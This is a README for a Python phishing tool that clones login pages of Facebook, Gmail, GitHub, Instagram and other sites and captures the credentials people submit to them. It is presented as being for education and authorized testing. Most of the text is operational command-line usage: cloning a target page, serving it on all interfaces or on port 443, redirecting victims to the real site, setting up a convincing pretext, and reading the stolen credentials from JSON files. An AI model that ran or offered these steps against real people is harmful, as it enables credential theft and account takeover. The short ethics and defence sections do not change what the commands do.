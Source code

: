# Credential Harvester Attack Simulation

## Overview

Credential harvesting (also known as phishing) is a type of social engineering attack where attackers create fake login pages that mimic legitimate websites to steal user credentials. This script simulates a credential harvesting attack by cloning websites and capturing submitted login information.

This tool is designed for educational purposes and authorized security testing to help understand and defend against phishing attacks.

## Features

- Website cloning with customizable templates
- Form interception and credential capture
- Secure credential storage
- Detailed logging and statistics
- Multiple authentication form detection
- Predefined templates for common websites

## Requirements

- Python 3.6+
- Requests library
- BeautifulSoup4 library

## Installation

```bash
# Install required dependencies
pip install requests beautifulsoup4
```

## Usage

### Basic Attack

The simplest way to run a credential harvesting attack is to use a predefined template:

```bash
# Use the Facebook template
python credential_harvester.py -t facebook -p 8080
```

This will:
- Clone the Facebook login page
- Start a web server on port 8080
- Capture any credentials submitted to the fake login form

### Using Predefined Templates

The script comes with several predefined templates for common websites:

```bash
# Facebook template
python credential_harvester.py -t facebook -p 8080

# Twitter template
python credential_harvester.py -t twitter -p 8080

# LinkedIn template
python credential_harvester.py -t linkedin -p 8080

# Gmail template
python credential_harvester.py -t gmail -p 8080

# GitHub template
python credential_harvester.py -t github -p 8080

# Instagram template
python credential_harvester.py -t instagram -p 8080
```

### Cloning a Custom URL

You can also clone any website by specifying its URL:

```bash
# Clone a specific login page
python credential_harvester.py -u https://example.com/login -p 8080
```

### Customizing the Attack

#### Change the Port

To run the web server on a different port:

```bash
# Use port 3000
python credential_harvester.py -t facebook -p 3000
```

#### Set a Redirect URL

To redirect users to the legitimate site after capturing credentials:

```bash
# Redirect to the real Facebook after credential capture
python credential_harvester.py -t facebook -p 8080 -r https://www.facebook.com
```

#### Specify an Output File

To save captured credentials to a specific file:

```bash
# Save credentials to a custom file
python credential_harvester.py -t facebook -p 8080 -o /path/to/captured_creds.json
```

#### Bind to a Specific Address

By default, the server binds to all interfaces (0.0.0.0). To bind to a specific address:

```bash
# Bind to localhost only
python credential_harvester.py -t facebook -p 8080 -b 127.0.0.1
```

#### Enable Verbose Mode

For detailed output and debugging information:

```bash
python credential_harvester.py -t facebook -p 8080 -v
```

## Advanced Usage

### Creating a Complete Phishing Scenario

For a more realistic test, you might want to:

1. Set up domain forwarding to your server
2. Use HTTPS (you can use a reverse proxy like Nginx with Let's Encrypt)
3. Create a convincing pretext for the phishing attempt

Example with a custom domain and HTTPS (requires additional setup):

```bash
# Run the harvester on port 443 (HTTPS)
sudo python credential_harvester.py -t facebook -p 443 -r https://www.facebook.com
```

### Testing Different Form Types

Different websites use different authentication mechanisms:

```bash
# Test a simple username/password form
python credential_harvester.py -t github -p 8080

# Test a multi-step authentication form
python credential_harvester.py -t gmail -p 8080
```

## Accessing the Phishing Page

After starting the server, the phishing page can be accessed at:

```
http://<your-ip-address>:<port>/

# For example
http://192.168.1.100:8080/
```

## Viewing Captured Credentials

Captured credentials are saved to a JSON file in the `captured` directory. You can view them with:

```bash
# List captured credential files
ls -la captured/

# View the contents of a specific file
cat captured/credentials_20250515_123045.json
```

## Ethical Considerations

This tool should ONLY be used for:
- Educational purposes
- Authorized security testing
- Phishing awareness training

Unauthorized use against systems or individuals without explicit permission is illegal and unethical.

## Defensive Measures

Common defenses against phishing attacks include:

1. Security awareness training
2. Multi-factor authentication
3. Email filtering
4. Domain monitoring
5. Browser security extensions
6. URL inspection

Understanding these attacks helps in implementing proper defenses and training users.

## Command Line Options

```
-t, --template     Predefined template to use (choices: facebook, twitter, linkedin, gmail, github, instagram)
-u, --url          URL to clone (alternative to using a predefined template)
-p, --port         Port to run the web server on (default: 8080)
-r, --redirect     URL to redirect to after capturing credentials
-o, --output       File to save captured credentials
-b, --bind         Address to bind the web server to (default: 0.0.0.0)
-v, --verbose      Enable verbose output
```

## License

Proprietary - Montimage

